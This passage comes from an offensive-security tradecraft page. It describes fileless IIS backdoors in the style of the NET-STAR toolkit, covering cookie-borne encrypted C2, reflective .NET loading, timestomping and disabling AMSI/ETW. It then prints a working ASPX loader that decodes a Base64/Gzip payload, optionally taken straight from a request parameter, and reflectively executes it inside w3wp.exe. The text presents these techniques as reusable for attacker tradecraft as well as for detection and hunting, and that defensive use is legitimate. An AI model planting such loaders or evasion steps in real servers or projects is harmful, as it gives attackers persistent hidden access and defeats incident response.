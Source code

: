 With the key ring available, an operator running in the app’s identity can instantiate an IDataProtector with the same purposes and unprotect stored secrets. Misconfigurations that store the key ring with the app files make offline decryption trivial once the host is compromised.

## IIS fileless backdoors and in-memory .NET loaders (NET-STAR style)

The Phantom Taurus/NET-STAR toolkit shows a mature pattern for fileless IIS persistence and post‑exploitation entirely inside w3wp.exe. The core ideas are broadly reusable for custom tradecraft and for detection/hunting.

Key building blocks
- ASPX bootstrapper hosting an embedded payload: a single .aspx page (e.g., OutlookEN.aspx) carries a Base64‑encoded, optionally Gzip‑compressed .NET DLL. Upon a trigger request it decodes, decompresses and reflectively loads it into the current AppDomain and invokes the main entry point (e.g., ServerRun.Run()).
- Cookie‑scoped, encrypted C2 with multi‑stage packing: tasks/results are wrapped with Gzip → AES‑ECB/PKCS7 → Base64 and moved via seemingly legitimate cookie‑heavy requests; operators used stable delimiters (e.g., "STAR") for chunking.
- Reflective .NET execution: accept arbitrary managed assemblies as Base64, load via Assembly.Load(byte[]) and pass operator args for rapid module swaps without touching disk.
- Operating in precompiled ASP.NET sites: add/manage auxiliary shells/backdoors even when the site is precompiled (e.g., dropper adds dynamic pages/handlers or leverages config handlers) – exposed by commands such as bypassPrecompiledApp, addshell, listshell, removeshell.
- Timestomping/metadata forgery: expose a changeLastModified action and timestomp on deployment (including future compilation timestamps) to hinder DFIR.
- Optional AMSI/ETW pre‑disable for loaders: a second‑stage loader can disable AMSI and ETW before calling Assembly.Load to reduce inspection of in‑memory payloads.

Minimal ASPX loader pattern
```aspx
<%@ Page Language="C#" %>
<%@ Import Namespace="System" %>
<%@ Import Namespace="System.IO" %>
<%@ Import Namespace="System.IO.Compression" %>
<%@ Import Namespace="System.Reflection" %>
<script runat="server">
protected void Page_Load(object sender, EventArgs e){
    // 1) Obtain payload bytes (hard‑coded blob or from request)
    string b64 = /* hardcoded or Request["d"] */;
    byte[] blob = Convert.FromBase64String(b64);
    // optional: decrypt here if AES is used
    using(var gz = new GZipStream(new MemoryStream(blob), CompressionMode.Decompress)){
        using(var ms = new MemoryStream()){
            gz.CopyTo(ms);
            var asm = Assembly.Load(ms.ToArray());
            // 2) Invoke the managed entry point (e.g., ServerRun.Run)
            var t = asm.GetType("ServerRun");
            var m = t.GetMethod("Run", BindingFlags.Public|BindingFlags.NonPublic|BindingFlags.Static|BindingFlags.Instance);
            object inst = m.IsStatic ? null : Activator.CreateInstance(t);
            m.Invoke(inst, new object[]{ HttpContext.Current });
        }
    }
}
</script>
```
